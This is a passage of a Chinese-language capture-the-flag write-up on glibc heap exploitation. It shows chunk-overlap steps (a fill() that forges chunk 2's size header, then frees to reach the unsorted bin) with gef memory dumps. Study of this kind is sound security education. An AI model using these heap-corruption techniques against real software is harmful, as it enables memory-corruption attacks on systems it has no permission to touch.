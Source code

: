  
`free(1)`,添加 chunk 1添加到 `fastbin` 中，注意 size 是 `0x70`,包括了 `chunk 2` 的一部分
```c
  Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0x55d152149080, size=0x70, flags=PREV_INUSE) 
```

将 刚 free 掉的chunk 1 malloc 出来,里面的内容被清空了
alloc(0x60)

```c
gef➤  x/16gx 0x00005565fc9ce000
0x5565fc9ce000:	0x0000000000000000	0x0000000000000071 => chunk 0
0x5565fc9ce010:	0x6161616161616161	0x6161616161616161
0x5565fc9ce020:	0x6161616161616161	0x6161616161616161
0x5565fc9ce030:	0x6161616161616161	0x6161616161616161
0x5565fc9ce040:	0x6161616161616161	0x6161616161616161
0x5565fc9ce050:	0x6161616161616161	0x6161616161616161
0x5565fc9ce060:	0x6161616161616161	0x6161616161616161
0x5565fc9ce070:	0x0000000000000000	0x0000000000000071 => chunk 1
gef➤  
0x5565fc9ce080:	0x0000000000000000	0x0000000000000000
0x5565fc9ce090:	0x0000000000000000	0x0000000000000000
0x5565fc9ce0a0:	0x0000000000000000	0x0000000000000000
0x5565fc9ce0b0:	0x0000000000000000	0x0000000000000000
0x5565fc9ce0c0:	0x0000000000000000	0x0000000000000000
0x5565fc9ce0d0:	0x0000000000000000	0x0000000000000000
0x5565fc9ce0e0:	0x0000000000000000	0x0000000000000071 => chunk 2 fake header 
0x5565fc9ce0f0:	0x0000000000000000	0x0000000000000000
```

`fill(1, 0x40 + 0x10, 'b' * 0x40 + p64(0) + p64(0x111))` ：
恢复 chunk2 的头
```c
gef➤  x/32gx 0x565289992010-0x10
0x565289992000:	0x0000000000000000	0x0000000000000071 => chunk 0
0x565289992010:	0x6161616161616161	0x6161616161616161
0x565289992020:	0x6161616161616161	0x6161616161616161
0x565289992030:	0x6161616161616161	0x6161616161616161
0x565289992040:	0x6161616161616161	0x6161616161616161
0x565289992050:	0x6161616161616161	0x6161616161616161
0x565289992060:	0x6161616161616161	0x6161616161616161
0x565289992070:	0x0000000000000000	0x0000000000000071 => chunk 1 
0x565289992080:	0x6262626262626262	0x6262626262626262
0x565289992090:	0x6262626262626262	0x6262626262626262
0x5652899920a0:	0x6262626262626262	0x6262626262626262
0x5652899920b0:	0x6262626262626262	0x6262626262626262 
0x5652899920c0:	0x0000000000000000	0x0000000000000111 => chunk 2 header 
0x5652899920d0:	0x0000000000000000	0x0000000000000000
0x5652899920e0:	0x0000000000000000	0x0000000000000071 => fake chunk 2 header  
```
```python
alloc(0x50) # 3  
free(2) # free 2   
```
为了避免 `free(2)` 和` top chunk `合并，我们先 `alloc(0x50)  `
`free` 之后：
`[+] unsorted_bins[0]: fw=0x5642e5bb10c0, bk=0x5642e5bb10c0
 →   Chunk(addr=0x5642e5bb10d0, size=0x110, flags=PREV_INUSE)`
